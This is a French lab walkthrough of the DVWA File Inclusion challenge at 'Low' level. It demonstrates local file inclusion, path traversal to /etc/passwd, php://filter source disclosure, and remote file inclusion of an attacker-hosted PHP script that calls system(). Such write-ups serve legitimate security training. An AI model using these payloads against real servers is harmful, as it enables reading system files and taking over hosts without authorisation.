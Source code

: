 # Niveau "Low"

Ce challenge nous propose une première page permettant d'accéder à trois fichiers nommés respectivement "file1.php", "file2.php" et "file3.php" :

![](../../../../.gitbook/assets/d513ac6fd858482c45cf09f35f0593d7.png)

Dont voici le contenu du fichier "file1.php" :

![](../../../../.gitbook/assets/8be03bac1ed4c2ab6587df1fdef97d28.png)

Du fichier "file2.php" :

![](../../../../.gitbook/assets/974fe5f5ca7d43775430e06a87646d24.png)

Ainsi que de "file3.php" :

![](../../../../.gitbook/assets/a701d84bd50ba8b731ee7c735e68f7ce.png)

\*\*\*\*

**Local File Inclusion \(LFI\)**

Ce qui est important de ****repérer ****ici, c'est que le nom du fichier à inclure se retrouve en tant que valeur du paramètre `page` présent dans l'URL :

![](../../../../.gitbook/assets/3a508a736095328be32d907b97cb7749.png)

\_\_

_Inclusion d'un fichier local du même niveau d'arborescence_

Une première attaque va consister à inclure des pages localement présentes, soit une LFI. Avec, dans un premier temps, un fichier au même niveau de l’arborescence :

![](../../../../.gitbook/assets/d6b64cb00929508c36c0d672cd144f56.png)

\_\_

_Inclusion d'un fichier local en utilisant une attaque de type path traversal_

Ou alors, de sortir du niveau courant de l'arborescence et d'utiliser dans le même temps une autre attaque nommée path traversal \(ou directory traversal\). Cette attaque consiste à injecter des occurrences de type `../` \(ou équivalent\) afin de remonter l’arborescence du système vulnérable :

![](../../../../.gitbook/assets/90195f7432883cf0d78823d0f5c7aeeb.png)

{% hint style="info" %}
Il est possible sous DVWA en niveau "Low" d'utiliser directement la syntaxe `?page=/etc/passwd` mais cela peut ne pas fonctionner suivant l'application ou le système cible
{% endhint %}



_Utilisation des wrappers PHP_

Lorsqu'une vulnérabilité LFI est détectée, il peut être utile, si cela est possible, d'utiliser les wrappers PHP afin d'avoir plus d'impact. Par exemple, le wrapper `php://filter` peut être utilisé pour récupérer le code source des pages `.php` . Dans l'exemple suivant, on récupère le code source \(en haut de la page, encodé en base64\) de la page `include.php` :

```http
?page=php://filter/convert.base64-encode/resource=include.php
```

![](../../../../.gitbook/assets/df136bf6f7dfc8bc478d6d12001362e5.png)

Une fois décodée \(il s'agit juste d'un extrait\) :

![](../../../../.gitbook/assets/ecc0129a677c8961d5f67ff64613be82.png)

D'autres wrappers sont intéressants à exploiter et peuvent mener à une RCE.



**Remote File Inclusion \(RFI\)**

Une RFI survient quand il est possible d'injecter/d'inclure un fichier distant. Ici un exemple simple est l'inclusion de la page `google.fr` :

```http
?page=http://www.google.fr
```

![](../../../../.gitbook/assets/d275ac6038a70e54f0a0e18ec0b2daa8.png)

Cette attaque peut permettre d'inclure un script malicieux distant \(hébergée sur une machine contrôlée par l'attaquant\). L'exemple ici ne fera que retourner le nom de la machine \(qui est, dans notre cas, l'identifiant de l'instance docker\) :

{% code title="malicious.php" %}
```php
<?php
  system('hostname');
?>
```
{% endcode %}

![](../../../../.gitbook/assets/8e56ab467f02f4a731a6aa507973589e.png)

Cela mène donc à une prise de contrôle du serveur.

{% hint style="info" %}
Cela ne s'arrête pas là mais les possibilités sont vastes : récupération d'un shell plus complet, maintien de l'accès, tentative d'élévation de privilèges, pivotage, ...
{% endhint %}

